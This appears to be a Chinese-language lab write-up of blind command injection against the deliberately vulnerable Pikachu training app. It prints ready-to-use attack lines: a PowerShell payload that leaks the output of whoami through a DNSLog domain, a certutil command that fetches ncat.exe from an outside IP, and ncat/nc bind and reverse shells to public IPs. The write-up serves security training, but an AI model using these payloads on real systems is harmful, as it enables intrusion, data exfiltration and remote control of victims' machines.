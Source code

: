 5.1实验

---

#实验环境 ：

- 阿里云+PHPStudy+pikachu （靶机）
- 服务器 （用作上传文件）

- window10              （攻击机）

#使用工具：

- Nmap （[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）
- DNSLog（[DNSLog Platform](http://dnslog.cn/)）
- pikachu（https://github.com/zhuifengshaonianhanlu/pikachu）
- 棱角社区（[[~\]#棱角 ::Edge.Forum*](https://forum.ywhack.com/bountytips.php)）

#实验步骤

1.设置pikachu数据库地址 

- 编辑inc\config.inc `服务器里面可能没有可以编辑PHP格式的建议下载一个Notepad++`

![image-20251017142524334](images/image-20251017142524334.png)

![image-20251017144634453](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017144634453.png)

2.本机登陆靶机网站 输入`127.0.01数据有回显`

![image-20251017145400934](images/image-20251017145400934.png)

3.在靶机中关闭回显 ctrl+f 搜索 echo

![image-20251017145919479](images/image-20251017145919479.png)

`注释echo`

![image-20251017150055959](images/image-20251017150055959.png)

4.网站无回显

![image-20251017150301157](images/image-20251017150301157.png)

5.使用[DNSLog Platform](http://dnslog.cn/)网站

![image-20251017150504559](images/image-20251017150504559.png)

利用window Poweshell命令 

127.0.0.1 | powershell $x = whoami;$x=$x.Replace('\\','xxx');$y='.z3xxl1.dnslog.cn';$z=$x+$y;ping $z 

- 因为cmd 无法运行 whoami
- 用Powershell变量赋值 把whoami 执行结果给变量
- 因为结果中带有==“\\”==导致ping命令无法执行
- 利用Replace 替换反斜杠变成“xxx”方面可读

==注意“\\”复制命令里面只有两个反斜杠需要删除一个反斜杠==

![image-20251017152502125](images/image-20251017152502125.png)

6.利用ncat.exe

- 由于windows没有Linux自带的nc。我们需要在电脑上下载个Nmap（Nmap自带ncat.exe）

- Nmap下载地址（[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）

![image-20251017153515138](images/image-20251017153515138.png)

- 把ncat上传到另一个服务器目录下 测试访问网址是否可以下载

  ![image-20251017171013453](images/image-20251017171013453.png)

![image-20251017170945228](images/image-20251017170945228.png)



- 打开棱角社区

![image-20251017171400116](images/image-20251017171400116.png)

- 选用一个cmd命令因为靶机是windows系统

certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe  `放到c盘`

![image-20251017171522371](images/image-20251017171522371.png)

- 输入命令

  ![image-20251017171744363](images/image-20251017171744363.png)

127.0.0.1 | certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe

- 成功放入服务器c盘

![image-20251017171850870](images/image-20251017171850870.png)

7.运用正反向连接即可

1.主动连接

- 主动连接目标5566

​	ncat 47.122.23.131 5566

- 绑定SH到本地5566端口

​	ncat -e /bin/sh -lvp 5566

- 主动连接目标5566

​	nc 47.94.236.117 5566

2、反向连接：主动给出去，对方监听

- 绑定CMD到目标5566端口

​	ncat -e /bin/sh 47.122.23.131 5566

- 等待5566连接

​	nc -lvvp 5566

- 绑定CMD到目标5566端口

​	nc -e cmd 47.94.236.117 5566

- 等待5566连接

​	ncat -lvvp 5566